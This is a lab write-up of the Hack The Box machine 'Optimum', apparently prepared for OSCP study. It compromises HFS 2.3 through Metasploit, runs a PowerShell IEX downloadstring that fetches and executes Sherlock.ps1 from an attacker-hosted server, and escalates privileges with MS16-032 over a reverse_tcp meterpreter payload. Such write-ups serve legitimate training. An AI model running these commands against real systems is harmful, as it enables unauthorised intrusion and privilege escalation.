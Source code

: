 ```yaml
---
layout: post
title: "optimum"
date: 2025-09-11 
categories: OSCP Playlist
---
```

# optimum

# Summary

- metasploit to get reverse shell
- sysinfo to find architecture of Windows
- Added Find-AllVulns to Sherlock.sp1, and used downloadString to execute from powershell
- search exploit in metasploit to escalate privilege

# Attack Path

First enumerate the open ports and services:

```bash
sudo nmap -sC -sV -oN nmap/optimum 10.10.10.8

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Searching up the version of HttpFileServer httpd 2.3 on Google reveal RCE exploit: https://www.exploit-db.com/exploits/39161

The same exploit can be found in metasploit. Let’s use that:

```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec

set LHOST tun0
set RHOSTS 10.10.10.8
set SRVPORT 8081
run
```

We now have a meterpreter session:

![image.png]({{ site.baseurl }}/assets/optimum/image.png)

Let’s get a shell and see if there are any saved creds:

```bash
cmdkey /list

Currently stored credentials:

* NONE *
```

Let’s upload mimikatz and see if there are any credentials in memory.  On the meterpreter shell:

```bash
upload mimikatz.exe
.\mimikatz.exe

privilege::debug
```

We do not have enough permissions. Let’s upload winpeas:

```bash
upload winpeas.exe
shell
.\winpeas.exe
```

It crashes. 

At this point, let’s just use metasploit’s exploit suggester. First let’s find out its architecture:

```bash
sysinfo 

Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

It’s x64 architecture. Let’s try using exploit suggester:

```bash
search suggester
use 0
set SESSION 1
run

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!                                                                                    
 5   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

```bash
set LHOST tun0 
set LPORT 9001
set SESSION 1
set payload windows/x64/meterpreter/reverse_tcp
run

```

None of it works as the suggester is not good at finding x64 exploits.

Now there is 3 ways of finding an exploit that works. First is finding the hot fix and search up vulnerabilities around the date of the hot fix. You can get hotfix by going into a shell and executing:

```bash
systeminfo
```

The next is to bruteforce search exploits on metasploit, searching for x64 exploits

```bash
search exploit/windows/local

   20   exploit/windows/local/cve_2017_8464_lnk_lpe                              2017-06-13       great      Yes    LNK Code Execution Vulnerability
   21     \_ target: Windows x64                                                 .                .          .      .
   22     \_ target: Windows x86
   46   exploit/windows/local/ms16_032_secondary_logon_handle_privesc            2016-03-21       normal     Yes    MS16-032 Secondary Logon Handle Privilege Escalation
   47     \_ target: Windows x86                                                 .                .          .      .
   48     \_ target: Windows x64
```

The third would be to upload Sherlock.ps1 onto the target. Sherlock will recommend exploits with a higher chance of success:

```bash
upload Sherlock.ps1
shell
powershell Import-Module .\Sherlock.ps1
Find-AllVulns
```

Did not work. Maybe we can host a python server and execute straight away form memory. First we need to add the line Find-AllVulns at the end of the Sherlock script. Then

```bash
#on attack box
python3 -m http.server 8002

powershell IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.7:8002/Sherlock.ps1')
```

It worked:

```bash
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

```

Now we have the CVE and MSBulletin, we can use metasploit to search them up:

```bash
search MS16-032

   #  Name                                                           Disclosure Date  Rank    Check  Description
   -  ----                                                           ---------------  ----    -----  -----------
   0  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  2016-03-21       normal  Yes    MS16-032 Secondary Logon Handle Privilege Escalation
   1    \_ target: Windows x86                                       .                .       .      .
   2    \_ target: Windows x64 
```

```bash
set LHOST tun0 
set LPORT 9001
set SESSION 1
set payload windows/x64/meterpreter/reverse_tcp
run

```

It worked:

![image.png]({{ site.baseurl }}/assets/optimum/image%201.png)